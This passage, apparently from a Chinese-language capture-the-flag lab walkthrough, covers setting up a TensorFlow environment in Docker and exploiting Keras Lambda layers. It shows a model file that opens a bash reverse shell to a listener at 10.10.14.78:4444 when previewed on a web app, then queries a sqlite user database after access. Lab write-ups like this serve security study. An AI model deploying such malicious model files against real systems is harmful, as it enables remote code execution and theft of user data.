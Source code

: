   
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHWwyHsUcvicjSufuHiczu70Z5YFxQ19HtFPKLaictXI54GNg7tS1pqRGLA/640?wx_fmt=png&from=appmsg "null")  
  
  
本地配置复杂的话也可以使用上面页面的 docker 配置文件在 docker 中构建模型  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHVIZ1DZhwJDpSSjErMAjRUlDdXfHZ4UahHbp9LaSfR65VuCAIOJ5Agw/640?wx_fmt=png&from=appmsg "null")  
  
  
把 Dockerfile 下载到本地  
```
docker build -t my-image .        # 在当前目录构建，这里需要较长的时间docker run -it my-image           # 进入
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHR9uFH1setyzoMEH4FwPktuGqibDicrSrxYRibHynOrBR6goK09ZMlrr6A/640?wx_fmt=png&from=appmsg "null")  
  
##### 反弹 shell  
  
环境配置好后，查找 tensorflow 的漏洞发现如下文章  
> https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model  
  
  
简单来说就是 Lambda 层允许用户在模型中嵌入任意Python代码。例如一个合法的Lambda层可能用于实现复杂的数学运算，但这种机制并没有限制代码的内容。因此，攻击者可以利用这一点，在Lambda层中嵌入恶意代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHKRNeK1b4trqibOaSnD1T4KdXVvz5pyROQ2Yb9ngkZibtgtrxgic2ZOf3w/640?wx_fmt=png&from=appmsg "null")  
  
  
根据文中的介绍，构建可以反弹 shell 的简单模型  
```
import tensorflow as tfimport osdef exploit(x):    import os    os.system("/bin/bash -i >& /dev/tcp/10.10.14.78/4444 0>&1")    return xmodel = tf.keras.Sequential()model.add(tf.keras.layers.Input(shape=(64,)))model.add(tf.keras.layers.Lambda(exploit))model.compile()model.save("model.h5")
```  
  
生成的.h5  
文件在网页上传，本地设置好监听，点击在线预览即可反弹成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHgibVGb9pLHMDNuoGpYbx2fNvGvPnF3PcnF3GB2GBsibsSdZA5ShO0GyQ/640?wx_fmt=png&from=appmsg "null")  
  
### 初步提权  
  
当前用户是 app, 权限很小，只是个 web 权限，不过在当前 instance 目录下找到个 sqlite 数据库文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHuW0GWQlJmsmPpWqLZM7O5XQJFRpXPp3dEmFat9xbzfgCNSIibhh0Mww/640?wx_fmt=png&from=appmsg "null")  
  
  
在当前机器使用 sqlite 打开数据库，浏览里面的内容  
```
# 打开数据库文件sqlite3 users.db# 查看表.tables# 查看表数据select * from user;
```  
  
user 表看到一个 gael 用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuH6dSj5THiaKBic4Z9gwGeedVU92pG3dkIyMA9G5WSZGckWsSHw6ou5kPg/640?wx_fmt=png&from=appmsg "null")  
  
  